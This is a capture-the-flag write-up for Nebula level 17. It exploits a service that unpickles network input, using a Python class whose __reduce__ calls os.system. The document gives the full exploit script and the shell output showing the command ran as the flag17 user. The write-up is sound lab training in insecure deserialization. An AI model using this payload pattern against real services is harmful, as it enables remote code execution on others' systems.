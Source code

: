 # Nebula - [LEVEL 17](https://exploit.education/nebula/level-17/)

Level Description:

![level.JPG](images/level.JPG)


# Nebula - [LEVEL 17](https://exploit.education/nebula/level-17/) - Solution

By observing the code we can see the following line:
```python
obj = pickle.loads(line)
```

We can use the Insecure Deserialization with Python Pickle module ([Reference](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)).

Let's write the following ```python``` code to use this vulnerability:
```python
import socket
import pickle
import os


class RCE(object):
        def __reduce__(self):
                return (os.system,(('getflag > /tmp/gf17'),))


sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(('127.0.0.1',10007))

payload = pickle.dumps(RCE())

print(sock.recv(1024))
sock.send(payload)
```

And we can see the ```/tmp/gf17``` file that created as ```flag17``` user:
```console
level17@nebula:/tmp/level17$ ls -ltr /tmp/gf17
-rw-r--r-- 1 flag17 flag17 59 2022-01-13 22:20 /tmp/gf17
level17@nebula:/tmp/level17$ cat /tmp/gf17
You have successfully executed getflag on a target account
```